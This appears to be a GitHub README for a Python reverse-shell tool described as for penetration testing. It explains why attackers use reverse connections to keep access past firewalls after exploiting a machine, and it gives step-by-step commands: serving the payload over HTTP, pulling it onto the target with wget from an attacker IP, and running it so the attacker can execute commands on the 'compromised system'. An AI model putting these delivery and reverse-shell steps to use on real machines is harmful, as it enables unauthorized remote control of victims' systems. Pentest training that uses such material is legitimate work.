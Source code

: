# Reverse-Shell
Python reverse shell that can be used during a penetration test.

# Background
After exploitng a machine the attacker needs a way to get access to the machine even after the vulnerability used bythe attacker is fixed. These scenario the attacker uses a reverse connection. By default most enterprise firewalls will block outside connection from connecting into the network, hence the attacker will have to get the target to connect to them using a reverse connection. The reverse shell above is composed of socket and relies onthe TCP protocol which is connection oriented. Socket is an API that allow programs to communicate over a network.
The reverse shell consists of two parts:

    a)Ability to connect to the attacker machine.
    b)Allows an attacker to execute terminal commands on a victim machine.

Accessing victim machine can be archived by carrying out reccon to identify open ports and services running onthem, then looking for exploits for this services. When an attacker gets an exploit to leverage a vulnerability onthe target they send malicious packets to the processes hosted onthe port and possibly compromise the system.

#Using the payload Above
Host the payload on a server using

    kali> python3 -m http.server 8080
![pythonhttp server](https://github.com/user-attachments/assets/8739c333-18d8-4247-b90f-b8eb093cb8f0)

Then use the wget command to download the payload onto the system from the server

    kali> wget 192.168.1.100:8080/reverseShell.py
![delivery](https://github.com/user-attachments/assets/dc80e3f0-4619-4098-96cf-d98c94342d67)

Start the server on the attacker machine using

    kali> python3 server.py

Then execute the reverse shell onthe hacker

    kali> python reserseShell.py 192.168.1.100 &                      Note: The & operator in bash is used to background a process.
![execute on target](https://github.com/user-attachments/assets/c9740c2c-33bd-4d0c-ba5e-ecddd269becc)

Now onthe Kali machine we get a connection onto our server allowing us to execute system commands onthe compromised system.
![c c](https://github.com/user-attachments/assets/ac832b50-3c46-44e2-adc8-e7a062bd69b7)



